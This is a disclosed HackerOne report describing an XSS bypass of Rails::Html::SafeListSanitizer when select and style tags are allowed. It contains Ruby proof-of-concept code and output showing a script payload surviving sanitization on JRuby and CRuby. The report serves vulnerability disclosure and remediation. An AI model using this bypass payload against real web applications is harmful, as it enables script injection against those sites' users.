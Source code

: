 # Rails::Html::SafeListSanitizer vulnerable to xss attack in an environment that allows the style tag

## Report Details
- **Report ID**: 1599573
- **URL**: https://hackerone.com/reports/1599573
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-06-14T04:11:59.177Z
- **Disclosed**: 2022-06-27T11:46:04.755Z

## Reporter
- **Username**: windshock
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
It seems to be a problem caused by a difference between the nokogiri java implementation and the ruby implementation.

jruby9.3.3.0 (nokogiri java), use Rails::Html::SafeListSanitizer.new.sanitize, allow select/style tag
code
```
tags = %w(select style)
puts "------------------------------------------------------------------"
puts "use Rails::Html::SafeListSanitizer.new.sanitize, allow select/style tag"
puts "input: <select<style/>W<xmp<script>alert(1)</script>"
puts "output: "+Rails::Html::SafeListSanitizer.new.sanitize("<select<style/>W<xmp<script>alert(1)</script>", tags: tags).to_s
puts "------------------------------------------------------------------"
```

result
```
input: <select<style/>W<xmp<script>alert(1)</script>
scrub --> node type :Nokogiri::XML::Text, node name :text, node to_s :W
scrub --> node type :Nokogiri::XML::Text, node name :text, node to_s :&lt;script&gt;alert(1)&lt;/script&gt;
scrub --> node type :Nokogiri::XML::Element, node name :xmp, node to_s :<xmp>&lt;script&gt;alert(1)&lt;/script&gt;</xmp>
scrub --> node type :Nokogiri::XML::Element, node name :style, node to_s :<style>W<script>alert(1)</script></style>
scrub --> node type :Nokogiri::XML::Element, node name :select, node to_s :<select><style>W<script>alert(1)</script></style></select>
output: <select><style>W<script>alert(1)</script></style></select>
```

This is a problem for CRuby as well if you use straightforward HTML that doesn't depend on how the parser corrects broken markup.

```
frag = "<select><style><script>alert(1)</script></style></select>"
tags = %w(select style)
puts Rails::Html::SafeListSanitizer.new.sanitize(frag, tags: tags)
```

outputs

```
<select><style><script>alert(1)</script></style></select>
```

on both CRuby and JRuby.

## Impact

It is possible to bypass Rails::Html::SafeListSanitizer filtering and perform an XSS attack.

## Attachments
- jrubyRails_oom_crash.mp4
